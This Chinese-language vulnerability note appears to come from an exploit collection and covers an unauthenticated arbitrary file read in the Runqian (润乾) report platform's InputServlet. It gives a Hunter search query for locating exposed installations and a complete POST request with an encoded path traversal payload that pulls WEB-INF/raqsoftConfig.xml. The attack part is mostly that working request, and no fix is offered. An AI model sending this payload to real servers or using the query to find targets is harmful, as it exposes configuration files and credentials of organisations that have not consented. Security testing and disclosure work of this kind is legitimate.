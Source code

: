 # 润乾报表InputServlet存在任意文件读取漏洞

# 一、漏洞简介
润乾报表是一个纯JAVA的企业级报表工具支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，提供高效的报表设计方案、强大的报表展现能力、灵活的部署机制，支持强关联语义模型，并且具备强有力的填报功能和olap分析，为企业级数据分析与商业智能提供了高性能、高效率的报表系统解决方案。润乾报表InputServlet存在任意文件读取漏洞，未经身份攻击者可通过该漏洞读取系统内部配置文件及敏感数据凭证，使系统处于极不安全状态。

# 二、影响版本
+ 润乾报表

# 三、资产测绘
+ hunter`app.name="润乾报表平台"`
+ 特征

![1712713418597-1304fe4b-6423-40c5-b6c4-622581d06799.png](./img/3t8T2Ov2W0KH4EFf/1712713418597-1304fe4b-6423-40c5-b6c4-622581d06799-025732.png)

# 四、漏洞复现
```java
POST /InputServlet?action=13 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: application/x-www-form-urlencoded
Connection: close
 
file=%2F%5C..%5C%5C..%5C%5CWEB-INF%5C%5CraqsoftConfig.xml&upFileName=web.config
```

![1713167588772-85cd2ff7-f7f1-417c-a916-bb61f767a6e9.png](./img/3t8T2Ov2W0KH4EFf/1713167588772-85cd2ff7-f7f1-417c-a916-bb61f767a6e9-908853.png)



> 更新: 2024-04-16 14:37:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/myq4mz6ygioo0z8s>